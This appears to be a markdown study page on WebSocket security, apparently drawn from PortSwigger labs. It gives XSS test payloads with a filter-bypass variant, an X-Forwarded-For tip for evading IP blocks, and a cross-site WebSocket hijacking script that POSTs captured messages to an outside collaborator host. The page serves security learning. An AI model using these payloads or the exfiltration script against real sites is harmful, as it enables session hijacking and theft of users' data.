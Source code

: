 ### WebSockets security vulnerabilities

In principle, practically any web security vulnerability might arise in relation to WebSockets:

1. User-supplied input transmitted to the server might be processed in unsafe ways, leading to vulnerabilities such as SQL injection or XML external entity injection.
2. Some blind vulnerabilities reached via WebSockets might only be detectable using out-of-band (OAST) techniques.
3. If attacker-controlled data is transmitted via WebSockets to other application users, then it might lead to XSS or other client-side vulnerabilities.

**Note:** In some cases you can bypass ip based restrictions while testing via `X-Forwarded-For` header if there any malicious activity detected by server.

### Testing Websockets Vulnerability
    For XSS: <img src=1 onerror='alert(1)'>
    To bypass XSS filter: <img src=1 oNeRrOr=alert`1`>
    For XXE:
    For SQLi:
    For SSRF:
### Manipulating Websocket Messages
The majority of input-based vulnerabilities affecting WebSockets can be found and exploited by tampering with the contents of WebSocket messages.

For example, suppose a chat application uses WebSockets to send chat messages between the browser and the server. When a user types a chat message, a WebSocket message like the following is sent to the server:
<br>
<br>
`{"message":"test"}`

In this situation, provided no other input processing or defenses are in play, an attacker can perform a proof-of-concept XSS attack by submitting the following WebSocket message:

<img width="1915" height="229" alt="Screenshot From 2025-07-27 23-21-33" src="https://github.com/user-attachments/assets/793568d5-00b8-4182-99e6-98d3a67da6a4" />

### Cross-site WebSocket hijacking
Cross-site WebSocket hijacking (also known as cross-origin WebSocket hijacking) involves a cross-site request forgery (CSRF) vulnerability on a WebSocket handshake. It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values.

[Cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab)

####  Exploit
```js
<script>
    var ws = new WebSocket('wss://0a820003036953d283898de6004b0013.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://agus9fqks1acunox6p9wrogmndt4hv5k.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
